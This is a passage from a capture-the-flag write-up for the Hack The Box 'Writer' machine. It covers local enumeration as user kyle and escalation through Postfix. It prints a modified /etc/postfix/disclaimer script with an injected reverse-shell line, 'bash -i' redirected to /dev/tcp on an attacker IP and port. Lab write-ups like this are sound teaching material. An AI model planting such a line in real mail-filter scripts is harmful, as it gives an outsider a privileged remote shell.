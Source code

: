 Firstly, we will check if the user ```kyle``` is able to execute any programs with root privileges. It seems that ```kyle``` cannot execute any programs with root privileges.

```
kyle@writer:~$ sudo -l
[sudo] password for kyle: 
Sorry, user kyle may not run sudo on writer.
```

Next, we will run ```linpeas``` script on the SSH server to discover potential privilege escalation vectors. From the output, we have discovered that there are mail applications running on the SSH server and we have a ```postfix``` service which is an SMTP.

![mail applications running on the server](https://github.com/joelczk/writeups/blob/main/HTB/Images/writer/mail_applications.PNG)

![Postfix](https://github.com/joelczk/writeups/blob/main/HTB/Images/writer/smtp_postfix.PNG)

From ```/etc/postfix```, we were also able to discover the addresses of Kyle and root user.

```
kyle@writer:~$ cd /etc/postfix && ls
disclaimer            dynamicmaps.cf    main.cf.proto  master.cf.proto  postfix-script
disclaimer_addresses  dynamicmaps.cf.d  makedefs.out   postfix-files    post-install
disclaimer.txt        main.cf           master.cf      postfix-files.d  sasl
kyle@writer:/etc/postfix$ cat disclaimer_addresses
root@writer.htb
kyle@writer.htb
```
Now, we will modify the ```/etc/postfix/disclaimer``` file to create a reverse shell command (NOTE the extra bash command)

```
#!/bin/sh
# Localize these.
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail
bash -i &>/dev/tcp/10.10.16.7/4444 0>&1

# Get disclaimer addresses
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

```